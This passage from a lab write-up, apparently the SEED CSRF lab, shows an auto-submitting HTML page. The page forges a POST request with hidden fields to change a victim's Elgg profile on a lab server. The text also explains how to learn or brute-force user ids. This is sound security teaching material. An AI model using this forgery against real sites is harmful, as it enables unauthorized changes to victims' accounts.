\subsection{Task 3 --- CSRF Attack using POST Request}
%
\begin{lstlisting}[language=HTML, caption=Changes in {\fontfamily{qcr}\selectfont editprofile.html},
    label={lst:editprofile_html}]
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>"; // change here
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>"; // change here
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>"; // change here

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit"; // change here
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/editprofile_alice.png}
    \caption{Showing ``Samy is my hero'' in the Alice's profile page.}
    \label{fig:edited_alice_profile}
\end{figure}

Assuming that we logged-in to Elgg with Alice's authentication. We need to know the valid
HTTP POST request for editing Alice's profile. In order to do that, we tried to edit something
in Alice's profile and submitted it. It turned out that the form of the targeted HTTP POST
request is (observed through HTTP Header Live):

\begin{verbatim}
    http://www.seed-server.com/action/profile/edit?<parameter>=<value>
\end{verbatim}

There are some parameters we need to notice: {\fontfamily{qcr}\selectfont name,
guid}. Two those parameters are used to define which user's profile is going to
be modified. In this case, Alice's profile needs to be changed, so {\fontfamily{qcr}\selectfont
name = Alice} and {\fontfamily{qcr}\selectfont guid = 56}. It seems that the parameter
storing the text ``Samy is my hero'' is {\fontfamily{qcr}\selectfont briefdescription}.
After collecting needed data pieces, we construct a malicious page (see \autoref{lst:editprofile_html}).
Assuming that we can easily trick Alice click on the link navigating to the malicious page
(it can be done simply by sending her an intricating message).
The malicious page has its URL as:

\begin{verbatim}
    http://www.attacker32.com/editprofile.html
\end{verbatim}

, it forged Alice to edit her profile through a HTTP POST request (see \autoref{fig:edited_alice_profile}).

Answering the \textbf{Question 1}, it is easy for Boby to know someone's user id. Firstly,
Boby can navigate to Alice's profile page at

\begin{verbatim}
    http://www.seed-server.com/profile/alice
\end{verbatim}

Then he can hover his cursor on the {\fontfamily{qcr}\selectfont Add friend} or
{\fontfamily{qcr}\selectfont Send a message} button. It will show the form as

\begin{verbatim}
    http://www.seed-server.com/action/friends/add?friend=<userid>
    http://www.seed-server.com/action/messages/add?send_to=<userid>
\end{verbatim}

Or Boby can try to send Alice a message and capture the HTTP GET request to see the form
as shown above.

Answering the \textbf{Question 2}, as the forged HTTP POST request in this case needs
user id (guid) to work properly. Hence, without having known user id, this attack cannot
be done. However, the attack can be done by brute-forcing as Elgg has only a few users.